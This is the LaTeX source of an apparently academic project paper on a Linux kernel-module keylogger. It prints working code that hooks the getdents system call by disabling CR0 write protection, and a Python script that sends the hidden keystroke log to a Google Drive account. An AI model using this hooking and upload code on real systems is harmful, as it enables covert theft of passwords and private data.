\documentclass[conference]{IEEEtran}
\IEEEoverridecommandlockouts
\newcommand\tab[1][0.5cm]{\hspace*{#1}}
\newcommand\TPTtagStyle{\textit}
\usepackage{amsmath,amssymb,amsfonts}
\usepackage{algorithmic}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{textcomp}
\usepackage{xcolor}
\usepackage{url}
\usepackage{pythonhighlight}
\usepackage[style=ieee,backend=biber]{biblatex}
\usepackage{float}
\usepackage[T1]{fontenc}
\usepackage[scaled]{beramono}
\usepackage{booktabs,ragged2e}
\usepackage[flushleft]{threeparttable}
\addbibresource{ref.bib}

\usepackage{color}
\definecolor{bluekeywords}{rgb}{0.13,0.13,1}
\definecolor{greencomments}{rgb}{0,0.5,0}
\definecolor{redstrings}{rgb}{0.9,0,0}

\lstset{language=C,
	showspaces=false,
	showtabs=false,
	breaklines=true,
	showstringspaces=false,
	breakatwhitespace=true,
	escapeinside={(*@}{@*)},
	commentstyle=\color{greencomments},
	keywordstyle=\color{bluekeywords},
	stringstyle=\color{redstrings},
	basicstyle=\ttfamily
}

\begin{document}
	
	\title{Embedded Keylogger in a Hijacked System Call\\
	}
	
	\author{\IEEEauthorblockN{Ragmac, Madeleine M. }
		\IEEEauthorblockA{\textit{2015-05330}\\
			madeleine.ragmac@eee.upd.edu.ph}
		\and
		\IEEEauthorblockN{Salmon, Paulino III I. }
		\IEEEauthorblockA{\textit{2015-11557}\\
			paulino.salmon@eee.upd.edu.ph}}
	
	\maketitle
	
	\begin{abstract}
		The project aims to show the vulnerabilities of the Linux kernel, especially a user's ability to tamper with its existing systems. A keylogging kernel module is used to hijack a system call by hooking it. A separate python script was used to upload the data to the cloud whenever the keylogger is exited. The successful implementation of this project demonstrates a vulnerability in the Linux operating system that could compromise sensitive data via kernel exploitation.	
	\end{abstract}
	
	\section{Introduction}
System calls are integral parts of the operating system (OS), allowing communications between the kernel and user-space applications. Due to the omnipresence of system calls in OS operations, they also present weak points in a system's security. In the hands of a malicious entity, modification of a system call could give them a large amount of control over the system's behavior \cite{1}. At this event, the device is rendered vulnerable to attacks or most of a device's data could be considered compromised \cite{27}. \\
\tab One of the common ways of attacking the device and gaining access to private information is through keyloggers. At their most basic, keyloggers are programs that record keystrokes. They can be used by goverment officials, law enforcement, the military, computer security experts, and even parents depending on their requirements. Keyloggers have legitimate uses, but are also useful tools for inappropriately gathering secret or personal information \cite{28}. \\
\tab This project aims to demonstrate the vulnerability of a device with tamperable system calls by implementing a keylogger. A system call will be modified by hooking a function to that system call using a kernel module.
	\section{Review of Related Literature}
	This chapter discusses the various techniques that are used in tampering with the Linux operating system to insert customized scripts intended for malicious intentions. It also discusses about the dangers of one specific malicious type of script, which is the notorious keylogger.
	\subsection{System Call Hooking}
	One way to edit system calls is through a method called system call hooking. This method is useful in the creation of malware \cite{1}. Hooking a system call allows the user to modify the behavior of that specific system call. Catching signals or data sent between the user and the kernel allows the interceptor to manipulate this data \cite{2}. \\
	\tab All existing system calls used by the Linux system is listed under the operating system's \emph{system call table}. By default, the system call table is read-only \cite{3}. This disables other users from tampering the system calls' functionalities. \\
	\tab Before being able to switch the permission bits for the system call table, we first need to know its address. This is done by using the \emph{kallsyms\_lookup\_name()} function for "sys\_call\_table" from the \emph{kallsyms.h} header, from Stack Overflow \cite{4}.
	\begin{lstlisting}
#include <linux/module.h>
#include <linux/kallsyms.h>

static unsigned long **p_sys_call_table;
/* Aquire system calls table address */
p_sys_call_table = (void *) kallsyms_lookup_name("sys_call_table");
	\end{lstlisting}
	
	There are multiple methods in order to switch this permission to be able to write into the system call table, but this study will be using a method by Tyler Nichols \cite{3}. \\
	\tab This method involves overwriting the permission bits by default. This is shown in the code snippet below.
	
	\begin{lstlisting}
if (syscall_table != NULL) {
	write_cr0 (read_cr0 () & (~ 0x10000));
	original_write = (void *)syscall_table[__NR_write];
	syscall_table[__NR_write] = &new_write;
	write_cr0 (read_cr0 () | 0x10000);
	printk(KERN_EMERG "[+] onload: sys_call_table hooked\n");
	} else {
	printk(KERN_EMERG "[-] onload: syscall_table is NULL\n");
}

kfree(kernel_version);

return 0;
	\end{lstlisting}
	
	The above function swaps the original system call with the tampered or hooked system by overwriting their permission bits and pointers in the system call table.
	\subsection{System Call Creation}
	Another way to tamper with the system call table is by implementing a new system call from scratch. This is done by creating a function with the \emph{asmlinkange} tag. An example of a "hello world" system call can be found below. This is a sample snippet from Arvind Raj \cite{5}.
	
	\begin{lstlisting}
#include <linux/kernel.h>
asmlinkage long sys_hello(void) {
	printk("Hello world\n");
	return 0;
}

	\end{lstlisting}
	
	The next step would be is that you want to add this function definition to the kernel's main makefile and add its number entry and system call name in the \emph{syscall\_64.tbl}. \\
	\tab Adding the function prototype at the end of the \emph{syscalls.h} header is also necessary for it to work. Finally, the entire Linux kernel should be recompiled and restarted to see the changes implemented.
	\subsection{The Dangers of Keyloggers}
	Keyloggers are very dangerous tools when in the hands of knowledgeable attackers. Keylogging involves recording every single keystroke that the user presses, even passwords and other very personal stuff. \\
	\tab A famous business email compromise attack that targeted employees from companies in the U.S., Middle East and Asia involved the creation of an Olympic Vision keylogger \cite{7}. This keylogger was able to initiate fraudulent payments to accounts through its hijacks. Its toolkit was also acquired from the black market for as little as \$25. \\
	\tab Another famous hack attack was one where Anthem, a health insurance company, fell victim to a keylogger hidden in a Trojan \cite{8}. Hackers were able to steal names, social security numbers and other sensitive information in the breach.
	
	\subsection{Keylogger Modules}
	This study uses two different versions of keylogger modules as basis from separate Github repositories, one from user jarun \cite{9} and another from user enaudon \cite{10}. User jarun's version of the keylogger is a general keystroke recorder in the form of a kernel module. User enaudon's keylogger involves intercepting the default \emph{read} system call and the stdin stream, then writes those inputs to a log file.
	
	%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
	\section{Methodology}
	This chapter will discuss the different steps implanting a hidden keylogger in the operating system by inserting it in one of the default system calls. The project aims to tamper with the "ls" terminal command, and thus, the \emph{getdents()} command will be tampered as these are one of the system calls exclusive to ls, and as such, keystroke recording will only be initiated once the ls command is invoked. Show in Figure \ref{fig:getdents-strace} is the complete list of system calls that ls uses.
	
	\begin{figure}[H]
		\begin{centering}
			%	\includegraphics[width=0.6\columnwidth]{images/decisiontree}
			
\includegraphics[width=0.7\columnwidth]{images/getdents.png}
			\par\end{centering}
		\caption{System Calls used by "ls"\label{fig:getdents-strace}}
	\end{figure}
	
\subsection{Creation VS Hooking}
	The researchers weighed these two methods in tampering with system calls. 
	\subsubsection{System Call Creation} 
	System call creation involved having to write a system call from scratch. The Linux kernel used for system call creation was specifically version 4.17.4, as the methods used by Shrimal \cite{6} will be followed. A keylogger module was created based on GitHub user jarun's design \cite{9}, with the \emph{asmlinkage} tag. This newly created system call should have its directory (together with its makefile) under the main Linux header directory. \\
	\tab Afterwards, this new system call should be added to the main kernel makefile after the \emph{core-y} line to tell the compiler that the source of our new system call would be under that specific directory. This should then be added to a file named \emph{syscall\_64.tbl}, the complete system call table list, and also add its function prototype to file named \emph{syscalls.h}, which is the header file for system calls. \\
	\tab After accomplishing all these tasks, it is required to recompile the entire Linux kernel. This was needed before we were able to check if our own implementations were working. So a recompile is necessary for every time the researchers wish to debug the codes. As the entire compilation time took about an average of 9 hours per run, the researchers decided to stick with System Call Hooking instead.
	\subsubsection{System Call Hooking}
	In contrast, system call hooking did not have the need to recompile the entire Linux kernel as it only practices the technique of \emph{system call redirection}. \\
	\tab As our study plans to tamper with the \emph{getdents()} system call by ls, we redirected the original getdents() from the system call into our own implementation, thereby tricking it from executing the keylogging part. This is done by looking for the struct that defines the getdents function, which is found in its manual page, as shown in Figure \ref{fig:man_getdents} below.
	
	\begin{figure}[H]
		\begin{centering}
			%	\includegraphics[width=0.6\columnwidth]{images/decisiontree}
			
\includegraphics[width=0.8\columnwidth]{images/man_getdents.png}
			\par\end{centering}
		\caption{Structure of the getdents() call\label{fig:man_getdents}}
	\end{figure}
	
	Knowing what its structure is, we can now finally start with the function hook. This is done by saving the original getdents function, and redefining our own version of the getdents function. Both declarations use the \emph{asmlinkage} tag, as show below.
	
	\begin{lstlisting}
asmlinkage int (*original_getdents) (unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);

asmlinkage int sys_getdents_hook(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
int rtn = original_getdents(fd, dirp, count);
return rtn;   
}
	\end{lstlisting}
	
	The first line saves the original getdents functionality to a variable name \emph{original\_getdents}. The second line defines our own version of the getdents named as \emph{sys\_getdents\_hook}. For now, all it does is save the return value of the original getdents function, then returns it, essentially still replicating the original functionality. This is where we will insert the keylogger module for the following steps. \\
	
	Next, we would like to locate the address of the system's sys\_call\_table. This is done with the following lines:
	\begin{lstlisting}
#include <linux/kallsyms.h>

void **syscall_table;
syscall_table = (void *)
	kallsyms_lookup_name("sys_call_table");
	\end{lstlisting} 
	
	The pointer pointing to this addressed is saved under the variable \emph{syscall\_table}. We will be using this in overwriting the existing system call table.
	
	The next thing that we would want to achieve is to overwrite the system call table's permission, changing the default read-only bits. Finally knowing its address, we can overwrite it, planting our own \emph{sys\_getdents\_hook} into it with the following snippet:
	\begin{lstlisting}
//disable write-protection
write_cr0 (read_cr0 () & (~0x10000)); 

//store original sys_read
original_getdents = (void *)syscall_table[__NR_getdents];  

//overwrite sys_read pointer
syscall_table[__NR_getdents] = &sys_getdents_hook; 

//reenable write-protection
write_cr0 (read_cr0 () | 0x10000);    
	\end{lstlisting}
	According to Nichols \cite{3}, "\emph{we use the Linux paravirtualization system to change the 16th bit of the CR0 register. The CR0 register is one of the control registers in the x86 processor that affects basic CPU functionality. The 16th bit of the CR0 register is the "Write Protect" bit that indicates to the processor that it cannot write to read-only memory pages, even when running as root"}. This is why the write\_cr0 and read\_cr0 can easily disable write protection of the system call table. This code snippet is ran upon module insertion, as this is defined in the code's initialization part. \\
	
	\tab After overwriting the getdents system call to function as our own, we will need to return it back to its original functionality once the module is removed, in order to avoid suspicions from the user. This is done with the following lines:
	
	\begin{lstlisting} 
//disable write-protection
write_cr0 (read_cr0 () & (~0x10000)); 

//overwrite sys_read pointer
syscall_table[__NR_getdents] = original_getdents;

//reenable write-protection
write_cr0 (read_cr0 () | 0x10000);  
	\end{lstlisting}
	\tab This essentially returns the system call table back to when before it was tampered and redirected to our own version of getdents.
	
	\subsection{Inserting the Keylogger Kernel}
	After successfully pulling off the hook, the code for the keylogging module is inserted in the \emph{asmlinkage int sys\_getdents\_hook(unsigned int fd, struct linux\_dirent64 *dirp, unsigned int count)} function. The keylogger code used in this project was the one from GitHub user jarun \cite{9}. 
	
	\subsection{The Python Parser}
	This entire keylogger module is coded to record its log files in the /debug directory, a place only accessible by root programs. With this, we cannot easily upload these recorded logs in real time as we will need to run our Python parser as root. \\
	\tab The Python parser created was implemented in Python 3. For its first functionality, it continously checks if a file already exists in a specific directory using an infinite while loop, or for the case of this study, this will be the \emph{keys.log} hidden file implanted by the hooked getdents system call. 
	
	\begin{python}
def check_if_file_exists():
	while not os.path.exists(filename):
		time.sleep(1)
	
	if os.path.isfile(filename):
		# read file
		print("File created.")
		continuously_check_for_updates()
	else:
		raise ValueError("%s isn't a file!" % file_path)
	\end{python}
	
	After the keylogger module creates this file upon an "ls" invoke, it proceeds to the next functions of the code, \emph{follow()}, \emph{continuously\_check\_for\_updates()} and \emph{writeToLog()}. These parts work in collaboration and check the log file for new changes, it writes them to another hidden log file, .keylog.log, that is accessible even without root permissions. 
	
	\begin{python}
def follow(thefile):
	while True:
		line = thefile.readline()
		if not line:
			time.sleep(0.1)
			continue
		yield line

def writeToLog(line):
	# Create hidden log file
	global timeFlag
	with open(".keylog.log", "a") as logfile:
		if timeFlag == 0:
			logfile.write("\n\n[LOG CREATED AT: "
			+ str(current_time) + " | " +
			str(today) + "]\n\n")
			timeFlag = 1
		logfile.write(line)

def continuously_check_for_updates():
	logfile = open(filename, "r")
	loglines = follow(logfile)
	for line in loglines:
		writeToLog(line)
	\end{python}
	
	As this entire main function is an infinite while loop since it continuously checks the log file for updates, this process can only be stopped with a keyboard interrupt. Upon detecting a KeyboardInterrupt signal, the parser proceeds to upload the hidden log file to Google Drive using Google Drive API. A \emph{credentials.json} file is needed to be secured from Google Developers to enable Python programs to access your Google account. The upload is done by the following lines and functions:
	
	\begin{python}
# Starting credentials
creds = ServiceAccountCredentials.from_json_keyfile_name
('credentials.json',
['https://www.googleapis.com/auth/drive'])
drive_api = build('drive', 'v3', credentials=creds)

def uploadFileToDrive():
	folder_id = "root" 
	file_name = ".keylog.log"
	mimeType = "application/vnd.google-apps.unknown"
	
	print("Uploading file " + file_name + "...")
	
	file_metadata = {
		'name': file_name,
		'mimeType': mimeType
	}
	
	body = {'name': file_name, 'mimeType': mimeType}
	body['parents'] = [folder_id]  
	
	# Upload proper
	media = MediaFileUpload(file_name, 
	mimetype='text/plain')
	
	fiahl = drive_api.files().create
	(body=body, media_body=media).execute()
	
	
	user_permission = {
		'type': 'user',
		'role': 'owner',
		'emailAddress': 'larss198v2@gmail.com'
	}
	
	drive_api.permissions().create(
	fileId=fiahl.get('id'),
	body=user_permission,
	transferOwnership=True,
	).execute()

def printFileIDsInDrive():
	results = drive_api.files().list
	(pageSize=10, fields="*").execute()
	items = results.get('files', [])
	if not items:
		print('No files found.')
	else:
		print('Files:')
		for item in items:
			print('{0} ({1})'.format(item['name'], item['id']))
	\end{python}
	\tab Credentials are given to the gmail account: \textbf{larss198v2@gmail.com}, a dummy account that we created for the purpose of this project. This .keylog.log file is automatically uploaded to the Google Drive under this account upon a keyboard interrupt. It also prints out the file IDs of all files under that account's drive to show that it indeed successfully upload the keystrokes record.
	
	\section{Results}
	The project was successfully able to fulfill all of its milestones defined during proposal period:
	\begin{itemize} 
		\item Hijack "ls"
		\item Embed a keylogger in the kernel
		\item Keylogger should upload logs online
	\end{itemize} 
	\tab The researchers were able to successfully tamper with the default Linux system calls using the System Call Hooking technique. A fully working keylogger was implemented that is able to log every single keystroke upon an "ls" invoke. The keylogger also successfully waits for specifically the "ls" command before it starts the logs. Successful usage of the Google Drive API in Python was also done to fully upload the keystroke logs in real-time.
	\section{Conclusion}
System calls are important parts of the operating system. They allow user space applications to interact with the kernel, granting them use of the operating system's services. Modifying one or more system calls could change how the OS works as a whole.\\ 
\tab By hooking a system call function to a keylogger, anyone can gain access to the user's keystrokes, possibly exposing private data such as personal messages, passwords, and other personal information. This data can be used for identity theft and other felonies.\\
\tab This project demonstrates an implementation of system call modification that could lead to inappropriate collection and usage of data if put in the wrong hands. Keeping operating systems and their securities up-to-date are the best way to ensure that the chance of device and data compromisation are minimized.
	\nocite{*}
	\printbibliography
	
\end{document}
